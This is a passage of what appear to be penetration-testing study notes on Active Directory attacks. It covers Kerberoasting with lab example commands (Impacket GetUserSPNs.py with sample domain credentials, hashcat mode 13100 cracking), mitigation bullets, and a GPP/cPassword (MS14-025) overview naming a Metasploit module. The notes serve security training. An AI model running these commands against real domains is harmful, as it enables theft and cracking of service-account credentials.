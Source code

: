 * Limit user/group token creation permissions
* Account tiering
* Local admin restriction

## Kerberoasting

### Overview

[https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

#### Steps

1. Get SPNs, Dump Hash
   1. `python GetUserSPNs.py <DOMAIN/username:password> dc-ip <ip of DC> -request`
2. Crack that hash
   1. `hashcat -m 13100 kerberoast.txt rockyou.txt`

### Example

#### GetUserSPNs

```bash
GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
```

Copy the hash from the output and paste it into a text file.

#### hashcat

```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

### Mitigation

#### Strategies

* Strong Passwords
* Least privileges

## GPP / cPassword Attacks

### GPP / cPassword Attacks Overview

Group Policy Preferences (GPP) AKA MS14-025

* Group Policy Preferences allowed admins to created policies using embedded credentials
* These credentials were encrypted and placed in a "cPassword"
* The key was accidentally released
* Patched in MS14-025, but doesn't prevent previous uses

Can check using `smb_enum_gpp` Metasploit module
